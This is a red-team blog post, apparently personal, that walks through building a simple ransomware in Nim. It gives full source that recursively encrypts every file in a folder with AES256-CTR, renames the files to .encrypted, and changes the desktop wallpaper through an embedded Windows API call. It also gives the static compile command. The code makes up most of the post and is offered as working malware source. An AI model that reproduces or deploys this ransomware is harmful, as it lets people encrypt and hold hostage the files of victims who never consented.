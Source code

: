 ```yaml
---
title: Exploring Nim language - Writing a ransomware
author: Ilan Kalendarov
date: 2021-03-01 16:10:00 +0800
categories: [Red Team]
tags: [ransomware, red team]

---
```


## Introduction

------

During one of my engagements I needed to encrypt an asset on the domain so, I started to explore what would be the simplest yet not easy to decrypt way of doing so. I came by the Nim language and started building my "Ransomware".

The Nim language was really interesting to me as it compiles to C, C++ or JavaScript and has a syntax that resembles Python.  I noticed the language is getting more popular on Twitter thanks to [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) and his amazing repo [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim). After exploring I saw a few new malware that has been [rewritten in  Nim](https://www.bleepingcomputer.com/news/security/trickbots-bazarbackdoor-malware-is-now-coded-in-nim-to-evade-antivirus/) So I decided to hop on the Nim trend and try to write simple yet powerful ransomware.



## Preparing the environment 

------

First, we need to prepare our setup. You can find the installation page [here](https://nim-lang.org/install.html). After installing Nim we need to set up our dev environment. You can follow the steps inside the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim#setting-up-a-dev-environment) repo.  Now we can actually start coding



## The encryption

------

Inside the OffensiveNim repo, there's a [script](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim) that shows how to handle encryption in Nim, AES256-CTR to be specific, It has all the information we need to start writing our encryption part of the ransomware.  I want to be able to encrypt any given folder recursively, Get the desired folder and key as arguments,Change the file extension and also change the wallpaper (Probably with Windows API). At this point the code should look like this:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
    
for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)

```

Lets try it ! 

![1encrypt](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/Ransomware/1encrypt.gif)

Great it works perfectly. Now, let's try to change the wallpaper. I did some searching and came by the above [API Call](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-systemparametersinfow) from Microsoft - `SystemParametersInfoW`. According to the docs - 

> Retrieves or sets the value of one of the system-wide parameters. This function can also update the user profile while setting a parameter.

In particular the `SPI_SETDESKWALLPAPER` was the flag that was interesting. With the following C++ code we'll be able to change the wallpaper:

```c++
#include <iostream>
#include <Windows.h>

int WallPaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
```

Now to the fun part, We don't need to work hard here with trying to convert the C++ code to Nim, We can just copy-paste (with some modification) the code directly to Nim !

This would be the final code:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
 
# Start of the C++ code
{.emit: """
#include <iostream>
#include <Windows.h>

int Wallpaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
""".}

# Importing the code to nim
proc Wallpaper(): int
    {.importcpp: "Wallpaper", nodecl.}
    
var result = Wallpaper()

for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)
```

Now, I'll compile the code with the above flags:

`nim cpp -d:release --app=console --opt:speed --passl="-static -static-libgcc -static-libstdc++" enc.nim`

And the result :

![2encrypt](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/Ransomware/2encrypt.gif)

I'll let you figure out the decryption part :)



## Conclusion 

------

As you can see, Nim is a really powerful language, It took me an hour to build this "Ransomware" and I think we could really expand the functionality of the program in the future. Maybe I'll make "Exploring Nim language" a series who knows.  



## Links & Resources

------

- [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)

* [Nim language](https://nim-lang.org/)

